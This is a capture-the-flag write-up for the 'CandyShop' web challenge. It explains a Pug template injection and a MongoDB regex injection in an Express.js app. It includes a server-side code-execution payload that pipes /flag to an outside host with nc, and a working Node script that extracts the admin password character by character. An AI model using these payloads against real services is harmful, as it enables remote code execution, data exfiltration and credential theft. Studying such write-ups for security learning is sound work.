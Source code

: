 ## CandyShop

[Attachment](https://github.com/catmunch/oss/blob/master/CandyShop.zip?raw=true)

Read the source code of the website, we'll find out that it's driven by express.js & pug template engine.

Then we'll find out the wrong usage of pug in the code:

`src/routes/shop.js`

```javascript
router.post('/order', checkLogin, checkActive, async (req, res) => {
    let {username, candyname, address} = req.body
    let tpl_path = path.join(__dirname, '../views/confirm.pug')
    fs.readFile(tpl_path, (err, result) => {
        if (err) {
            res.render('error', {error: 'Fail to load template!'})
        } else {
            let tpl = result
                .toString()
                .replace('USERNAME', username)
                .replace('CANDYNAME', candyname)
                .replace('ADDRESS', address)
            res.send(pug.render(tpl, options={filename: tpl_path}))
        }
    })
})
```

It uses simply REPLACE to inject the info, rather than use the pug engine!

Then we can try to let the pug execute arbitrary code on the server side. Google it, and we know we just need to prepend `- ` to our javascript code, then it should work fine.

So we let the username be

```javascript
')
                        - process.mainModule.constructor._load('child_process').exec('cat /flag | nc 8.8.8.8 8888 ')
                        .p('
```

Then after it's injected to the template, the template should be like

```javascript
extends layout


block content
    .container
        .row.justify-content-center
            .col-6.mt-5
                .card
                    .card-header.text-center.font-weight-bold(style='background-color: pink;color: white') Confirm Your Order
                    .card-body
                    form(action='/shop/confirm' method='POST')
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='username') User Name
                            .col-6
                                input#username.form-control(type='text' name='username' value='')
                        - process.mainModule.constructor._load('child_process').exec('cat /flag | nc 8.8.8.8 8888 ')
                        .p('' readonly)
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='candyname') Candy Name
                            .col-6
                                input#candyname.form-control(type='text' name='candyname' value='CANDYNAME' readonly)
```

Then our code can be executed and we can get the flag.



But wait, we can't call the `POST /order` API cause we don't have an active account. so we should active our account or just use the admin account.

Sadly there's probably no way to active an account, so we can try to get the admin password.



How?

Observe the login code carefully, there seems to be a useless `if` statement

```javascript
let rec = await db.Users.find({username: username, password: password})
if (rec) {
    if (rec.username === username && rec.password === password) {
        res.cookie('token', rec, {signed: false})
        res.redirect('/shop')
    } else {
        res.render('login', {error: 'You Bad Bad >_<'})
    }
} else {
    res.render('login', {error: 'Login Failed!'})
}
```

How can mongodb find a user that its username or password doesn't equal to the input one?

We then find another snippet

```javascript
router.post('/register', async (req, res) => {
    let {username, password} = req.body
    if (typeof(username) !== 'string')
        return res.status(400)
```

Seems like if the username isn't a string, it will cause some unexpected behaviors.

Then we search for the mongodb docs, and we found out we can pass an object to it to perform advanced search like regex.

Therefore, we can try to post /login with parameter `password[$regex]=*`, and we get the response `You Bad Bad >_<`.

But if the regex doesn't match the password, we'll get `Login Failed`.

So just use SQL blind injection, write a script to get the password

```javascript
const axios = require('axios');
async function test(known) {
    const params = new URLSearchParams()
    params.append('username','rabbit');
    params.append('password[$regex]',`^${known}.*$`);
    const res = await axios.post('http://<target host>/user/login',params,{
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        }
    })
    return res.data.indexOf('You Bad Bad') !== -1
}
charset = ['0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f']
cur = ''
async function main(){
    for(let i=0;i<64;++i){
        for(let j=0;j<16;++j){
            if(await test(cur+charset[j])){
                cur += charset[j]
                process.stdout.write(charset[j]);
                break
            }
        }
    }
}
main()
```

Then we can get the flag.
